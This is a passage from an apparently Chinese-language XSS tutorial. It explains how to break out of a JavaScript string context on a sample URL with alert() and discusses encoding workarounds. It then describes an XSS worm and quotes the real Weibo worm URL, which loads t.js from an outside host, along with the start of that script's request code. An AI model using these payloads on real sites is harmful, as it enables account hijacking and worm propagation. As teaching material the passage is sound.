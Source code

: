 ```js
{
    ...
    pageAbsUrl:"...name=abc%3Cscript%3Ealert('hello world')%3C/script%3E"
    ...
}
...
</script>
```
因为，已经有了`<script>`标签，所以传入的不需要 `<script>` 标签了，根据放入的位置拼装执行代码
最后可执行的代码的样子
```js
<script>
...
{
    ...
    pageAbsUrl:"...name=abc",alert('hello world')//"
    ...
}
...
</script>
```
所以需要将url改成
```
www.basic.com/index.php?r=article/post&name=abc",alert('hello world')//
```
又一个问题，经过自动编译处理将会把 `"` 变成 `%22` 导致无法执行
这就需要使用 HTML实体编码
**HTML实体编码**
查看HTML实体编码表
`"`可以使用 `&quot;` 代替
但是url会根据 `&` 进行参数分割
可以使用url编码将 `&` 编码 `%26`
**url编码**
通过查看URL编码表
js的 `escape()`方法

最后，因为获取内容放在 `<script>` 中，在js环境中是不认识HTML实体编码的，所以还是无法执行
但是，如果没有在 `<script>` 的是可行的

### xxs蠕虫攻击
xxs worm
页面中插入js代码，发布，当用户访问的时候，又会以访问用户的身份发布文章，感染性极强

示例
```js
http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update
```
使用js的 `uneacape()` 将转义一下可以看到
```
"http://weibo.com/pub/star/g/xyyyd"><script src=//www.2kt.cn/images/t.js></script>?type=update"
```
当用户访问这个页面的时候将会去加载 `t.js`,在t.js中实现逻辑
```js
function createXHR(){
	return window.XMLHttpRequest?
	new XMLHttpRequest():
	new ActiveXObject("Microsoft.XMLHTTP");
}
function getappkey(url){
	xmlHttp = createXHR();
	xmlHttp.open("GET",url,false);
	xmlHttp.send();
	result = xmlHttp.responseText;
	id_arr = '';
```